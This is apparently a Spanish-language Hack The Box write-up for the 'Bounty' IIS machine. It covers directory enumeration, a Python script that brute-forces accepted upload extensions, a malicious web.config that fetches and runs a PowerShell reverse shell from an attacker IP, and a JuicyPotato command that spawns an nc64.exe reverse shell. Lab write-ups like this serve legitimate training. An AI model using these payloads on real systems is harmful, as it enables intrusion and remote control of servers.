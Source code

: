 # Bounty-HTB

## NMAP

Esta maquina solo tiene el puerto 80 abierto.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/4d99534a-d8d7-4b37-8450-fee111059940)

## Dirbuster y WFUZZ

Para esta maquina ya nos dimos cuenta que nos enfrentamos a un ***IIS 7.5*** buscamos archivos .aspx, .asp, .config.

```
dirbuster -u http://10.129.1.185/ -t 200 -l /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -r dirout.ext -e php,txt,html,asp,aspx,config


```
Siempre que estes probando algo creo que es bueno ver hacktricks.

> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services

Se encontro una pagina trasfer.aspx

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/39bea836-ef1f-41c3-a8c0-303c2e772704)


Siempre que tenemos este tipo de cosas hay que probar que extenciones permiten las que nos permitirian ejecutar comandos son .asp, aspx y .config ( esta yo no sabia). Otra ruta que se encontro es:

> http://10.129.18.176/UploadedFiles


## Python (probando extenciones que acepta)

Para probar extenciones se uso el script de s4vitar.

```python

#!/usr/bin/python3

from pwn import *
import signal, time, pdb, sys, requests, re

# Diccionario A Utilizar
# /usr/share/seclists/Discovery/Web-Content/raft-small-extensions.txt

transfer_url='http://10.129.137.104/transfer.aspx'

def def_handler(sig, frame):
	print("\n\n[!] Saliendo....\n")
	sys.exit(1)

#CTRL+ C
signal.signal(signal.SIGINT, def_handler)
#time.sleep(10)

burp = { 'http': 'http://127.0.0.1:8080'}

def uploadFile(extension):
	# Vamos a arrastrar sesiones
	#r = requests.get(transfer_url)
	s = requests.session()
	r = s.get(transfer_url)
	#pdb.set_trace()
	viewState = re.findall(r'id="__VIEWSTATE" value="(.*?)"',r.text)[0]
	#print(viewState)
	#pdb.set_trace()
	eventValidation = re.findall(r'__EVENTVALIDATION" value="(.*?)"',r.text)[0]
	#print(eventValidation)
	post_data = {
	'__VIEWSTATE': viewState,
	'__EVENTVALIDATION': eventValidation,
	'btnUpload': 'Upload'
	}
	fileUploaded = {'FileUpload1': ('Prueba%s' % extension, 'Esto es una prueba')}
	r = s.post(transfer_url,data=post_data,files= fileUploaded) # proxies=burp
	#print(r.text)
	if "Invalid File. Please try again"  not in r.text:
		#print ("La Extencion es correcta")
		log.info("La extension %s valida " % extension)




if __name__ == '__main__':
	f = open("/usr/share/seclists/Discovery/Web-Content/raft-small-extensions.txt", "rb")

	p1 = log.progress("Fuerza bruta")
	p1.status("Iniciando ataque de fuerza bruta")

	time.sleep(2)

	for extension in f.readlines():
		#pdb.set_trace()
		extension= extension.decode().strip()
		p1.status("Probando con la extension %s" % extension)
		uploadFile(extension)


```

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/1c58bea9-bc86-456c-9c6e-eb1277585549)


## Burpsuite

Se pueden probar las extenciones validas con el intruder.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/0dae7f01-379a-43f8-973c-29fce098dab0)

Agregamos ahi en donde esta la extencion y nos vamos a payloads.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/c5088d8c-fe65-4b72-8480-69a6ffde08aa)


Al lanzarlo tenemos un problema lo esta URL encodeando necesitamos arreglar eso o no funciona.

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/ba912ed8-fa64-4bba-ba6e-6bbd1dd4aa02)

Quitamos esa opcion. Si queremos que nos saque una frase cosa que veo ya inecesario solo fijate en el length

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/c85ba7ee-5e0c-4567-9eb0-7a704f16e08e)


## RCE

Entonces en este punto ya sabemos que se puede subir una extencion .config por lo que vamos a subir un web.config con una reverseshell.

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.5/Invoke-PowerShellTcp.ps1')")
%>
```

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/a07d1f8f-3ce1-43cd-b514-8f956b4581db)

> https://research.nccgroup.com/2019/08/23/getting-shell-with-xamlx-files/

> https://0xdf.gitlab.io/2018/10/27/htb-bounty.html

Con esto ganamos acceso a la maquina y ya sabes haciendo una enumeracion vemos el privilegio de SetImpersonate. Algo a destacar la flag estaba escondida como archivo oculto. usa las opciones /a:h tanto como para buscar como para listar.

### JuicePotato

La manera mas facil de escalar privilegios.

```
.\JuicyPotato.exe -t * -l 1337 -p cmd.exe -a "/c C:\Windows\Temp\Privesc\nc64.exe -e cmd.exe 10.10.14.22 1234" -c "{C49E32C6-BC8B-11d2-85D4-00105A1F8304}"

```

![image](https://github.com/gecr07/Bounty-HTB/assets/63270579/4d86d65b-f0b9-4819-a76a-4390e58a2420)


















































































